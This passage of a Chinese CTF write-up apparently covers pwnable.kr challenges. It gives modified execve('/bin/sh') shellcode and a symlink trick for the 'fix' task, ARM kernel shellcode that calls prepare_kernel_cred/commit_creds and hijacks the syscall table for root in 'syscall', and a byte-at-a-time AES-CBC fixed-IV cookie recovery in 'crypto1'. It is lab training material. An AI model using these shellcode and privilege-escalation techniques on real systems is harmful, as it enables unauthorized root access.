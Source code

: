 将shellcode[15]改成92（0x5C），这样代码会变成：
```
xor    eax,eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx,esp
pop    esp
push   ebx
mov    ecx,esp
mov    al,0xb
int    0x80
```
这样居然也是一个shellcode，但是要注意此时要开 ulimit -s unlimited
这里附官网的intended_solution：
> 1. change 15th index of shellcode into 0xc9 (201)
> 2. create symlink for a shell script input file:
> ln -s /tmp/fix8/a.sh `perl -e 'print"\x83\xc4\x10\x83\xec\x0c\x50\xe8\x4d\x61\x01"'`` (去掉最后一个点号)
> 3. put whatever commands in a.sh. these commands will be executed as fix_pwn

此时的shellcode为：
```
   0xffb89dcc:	xor    eax,eax
   0xffb89dce:	push   eax
   0xffb89dcf:	push   0x68732f2f
   0xffb89dd4:	push   0x6e69622f
   0xffb89dd9:	mov    ebx,esp
   0xffb89ddb:	leave  
   0xffb89ddc:	push   ebx
   0xffb89ddd:	mov    ecx,esp
   0xffb89ddf:	mov    al,0xb
   0xffb89de1:	int    0x80
```
### syscall
系统内核级别的漏洞利用
在虚拟机环境中添加了一个新的系统调用：sys_upper(char* in, char* out)，但是其并没有做任何的检查，因此我们可以通过控制in中的内容和out的指针地址来修改到out指向的地址中的内容
首先，根据/proc/kallsys中的内核符号表得到几个关键的内核函数的地址
- vmalloc-exec：可以在内核地址中分配一块指定大小的可执行内存空间
- PREPARE_KERNEL_CRED & COMMIT_CREDS：可以说是内核exploit的最终固定动作了：从内核获取root的执行权限表(cred)，再为现在执行的程序注册该权限表(即给予当前程序的root权限)

因此可以采取如下的思路（方法不止一种，除了vmalloc-exec的方法还有很多）：
1. 首先在内核中分配一块可执行空间，作为shellcode
shellcode的内容为一段汇编代码：
```
    stmfd sp!, {r4, lr}
    mov r0, #0
    ldr r4, =0x8003f924 # PREPARE_KERNEL_CRED 地址
    blx r4
    ldr r4, =0x8003f56c # COMMIT_CREDS 地址
    blx r4
    ldmfd sp!, {r4, pc}
```
即获取权限表-注册权限表
2. 然后将这个写入了shellcode的buffer的地址写到系统调用表中（任意取一个没用过的系统调用号）
3. 最后调用这个系统调用即可
### crypto1
真正的brute-force
题目中要求先输入id和pwd，之后对一个字符串：id-pwd-cookie作AES的CBC加密，cookie未知。然后将加密的字符串发送给服务器验证，服务器解密，先验证cookie是否相同，再验证id+cookie的sha256值是否和pwd一样，一样就可以拿到flag
所以思路就是先想办法得到cookie，然后计算一下id+cookie的sha256值当作pwd就可以通过验证。
由于采用的是CBC分组加密模式，初始向量IV是写死的，因此只要保证字符串的前16位相同，那么加密出来的结果的前16位就是相同的；保证前32位相同，出来的结果前32位就是相同的
因此可以将pw置空，通过一位位置换id的末尾，比较加密出来的结果和不置换的结果就可以逐渐得到所有的cookie